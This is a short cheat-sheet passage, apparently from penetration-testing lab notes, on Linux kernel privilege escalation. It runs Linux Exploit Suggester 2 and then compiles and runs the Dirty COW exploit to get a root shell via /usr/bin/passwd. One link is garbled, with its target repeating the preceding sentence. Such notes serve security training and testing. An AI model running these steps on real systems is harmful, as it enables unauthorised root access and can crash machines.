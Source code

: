 **Can break the system only run as last resort**

Identify potential kernel exploits on the current system using [Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2): `perl linux-exploit-suggester-2.pl`

### Dirty COW

1. Compile the [Dirty COW](<Identify potential kernel exploits on the current system using [Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2): `perl linux-exploit-suggester-2.pl`>) code: `gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w`
2. Run it: `./c0w`
3. Gain the shell: `/usr/bin/passwd`

